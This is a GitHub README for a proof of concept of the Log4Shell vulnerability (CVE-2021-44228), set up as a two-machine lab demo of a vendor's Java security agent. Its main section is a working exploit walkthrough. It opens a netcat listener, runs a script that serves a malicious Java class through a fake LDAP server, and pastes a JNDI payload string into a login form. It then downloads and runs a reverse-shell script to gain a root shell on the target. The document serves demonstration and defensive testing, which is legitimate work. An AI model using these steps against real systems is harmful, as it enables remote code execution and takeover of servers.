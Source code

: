 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Kudos to kozmer for the POC. I just added some niceties for demoing purposes and added the Waratek agent.<br><br>

[![Log4j: How To Exploit It And 3 Ways To Fix It](https://img.youtube.com/vi/OPwyBrezj64/0.jpg)](https://www.youtube.com/watch?v=OPwyBrezj64)

Setup
----------------------------------------

This works best with two machines. I prefer to spin up 2 droplets on Digital Ocean because it's cheap for test purposes.<br><br>
One machine acts as the target while the other acts as the attacker.<br><br>
Before moving forward, download the following version of Java SE Development Kit `java-8u20` here: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html<br><br>

Prep
----------------------------------------

- Move the extracted archive for the Java SE Development Kit into the root of this repo
- Upload the root of this repo with the extracted Java SE Development Kit into your **attacker** machine
- Ensure that `python3` is installed on your attacker machine (if not follow guide here: https://www.digitalocean.com/community/tutorials/how-to-install-python-3-and-set-up-a-programming-environment-on-an-ubuntu-20-04-server)
- Upload the root of this repo without the extracted Java SE Development Kit into your **target** machine

Steps to Follow
----------------------------------------

#### Start the vulnerable application on the target machine with the following commands

```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

Note: This runs the application without the Waratek Security-as-Code platform. More information on implementing the platform below.<br><br>

### Prep the exploit

- On the attacker machine open 2 shells: One to listen for the reverse shell, and one to run the server
- On the first shell for the attacker machine, open a port with netcat: `$ nc -lvnp 9001`
- On the second shell for the attacker machine, start the webserver that will deliver the exploit payload with: `$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001` where `{attackerIP}` is the IP address of the attacker machine
- When the web server launches, you'll receive a payload in the ouput as seen below:
```py
$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
- Copy the payload from __"Send me:"__ and open up the vulnerable application in your browser.
- Paste the payload into the email field and put in any value as the password, then press "Sign in."
- The browser should hang and then on the attacker machine shell with netcat running you should see a connection established.
- Download this reverse shell Python script with: `$ curl -O https://gist.githubusercontent.com/jacobwarren/0abf1c5d3d2e969ac8dfcc5a10abf8e8/raw/7dce0c1924c06c20c1471bc4c0824704024c535c/revsh.py`
- Then run it with `$ python3 revsh.py` to establish a TTY
- Now run `$ WHOAMI` to verify that you're indeed root.

Testing the Waratek  Security-as-Code agent
--------------------------------------------

- Move the `waratek` folder to the root directory of this repo
- In the `Dockerfile` uncomment out lines 30, 33, and 36.

#### Line 30
This line adds the waratek folder to the Tomcat directory in the container<br><br>

#### Line 33
This line sets proper permissions for the contents of the agent folder<br><br>

#### Line 36
This line sets the Java options to start launch your application with Waratek as your Java agent<br><br>

### Configure your agent
Within the `waratek/conf_1` directory, open the `waratek.properties` file.<br><br>

- Assign the desired agent ID to your application with the `com.waratek.ControllerKey` property
- Assign your organization ID with the `com.waratek.OrgId` property
- To authenticate your application, assign both your `accessKey` and `secretKey` to the assocated properties

### Rebuild Docker container
```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

- Go through the above steps again to reproduce the POC
- Verify the exploit works
- Define your security behavior either in the Policy Config file (running in the container - so `docker exec` in) or from within the Portal
- Verify that the exploit isn't possible to perform again without restarting the container
